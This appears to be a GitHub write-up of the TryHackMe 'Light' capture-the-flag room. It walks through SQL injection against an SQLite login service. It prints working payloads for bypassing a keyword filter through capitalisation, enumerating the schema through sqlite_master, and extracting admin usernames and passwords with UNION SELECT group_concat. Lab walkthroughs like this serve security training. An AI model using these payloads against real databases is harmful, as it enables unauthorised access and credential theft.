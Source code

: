 # Light

<br>

<p align="center">
  <img src="https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1737140605838" width="200">
</p>

> *Welcome to the Light database application!*

<br>

## 🧠 Intro
Welcome to **Light**, a short and clever room focused on **SQL Injection (SQLi)** and database misconfigurations. SQLi happens when an application directly includes unsanitized user input in SQL queries — allowing attackers to manipulate the query logic and extract sensitive data from the backend.  


*Deploy the machine and let's light this one up.* 🔦

<br>

## 🎯 Task
To pwn this room, we need to:

- Find the **username** and **password** of the **admin** user.
- Capture the **flag**.

<br>

## 🔍 Recon
The room description hints at connecting to the machine via netcat on port `1337`.

```bash
nc MACHINE_IP 1337
```

![Light_1](src/Light_1)

We're greeted by a minimal login interface. We try logging in with:

> Username: `smokey`

The server responds with the corresponding password — but doesn’t actually log us in. Strange. Seems like we’re just querying the database and getting a response.

Time to test for SQL injection. 😈

<br>

## 🧪 Exploitation (SQLi)

We start simple with the classic:

```sql
' OR 1=1 --
```

But the server blocks us:

> *For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)*

Okay, so comments and certain keywords are filtered. Let’s try without the comment:

```sql
' OR 1=1
```

And now we get:

> *Error: unrecognized token: "''' LIMIT 30"*

Looks like an issue with unmatched quotes. So we try:

```sql
' OR '1=1
```

Success! We get a password as a response — even though it's useless:

> *tF8tj2o94WE4LKC*

This confirm that SQLi works. Now let’s go deeper. We need to find out what DBMS we're dealing with.

We suspect it's **SQLite** (given the name *Light*), so we try this payload:

```sql
' UNION SELECT sqlite_version() '
```

...but the server complains:

> *Ahh there is a word in there I don't like :(*  

Looks like keywords are filtered in uppercase. What if we capitalize?

```
' Union Select sqlite_version() '
```

Boom. This works — we get:

> *3.31.1*

So we’re dealing with SQLite 3. Nice.

Now, let’s enumerate the schema via the `sqlite_master` table:

```sql
' Union Select sql From sqlite_master '
```

This returns the table schema:

![Light_2](src/Light_2.png)

Perfect. Now let’s extract the data.

To list usernames:

```sql
' Union Select group_concat(username) From admintable '
```

Result:

![Light_3](src/Light_3.png)

Then for passwords:

```sql
' Union Select group_concat(password) From admintable '
```

And we get:

![Light_4](src/Light_4.png)

Mission complete!

<br>

## 🏁 Got the Flag
On the admintable table, we find the username, the password and the flag.

```
flag{go_get_it}
```

*Straight from the shadows into the light.* 💡

<br>

## 📝 Notes
This room shows how powerful SQL injection can be even in very restricted environments. Filter bypassing, capitalization tricks, and knowledge of DBMS behavior are all key tools when digging into databases.

<br>

## 🏠 Room Info
- 🧩 [TryHackMe - Light](https://tryhackme.com/room/lightroom)
- 🏷️ Difficulty: Easy
- 🧠 Focus: SQLi (SQL Injection)
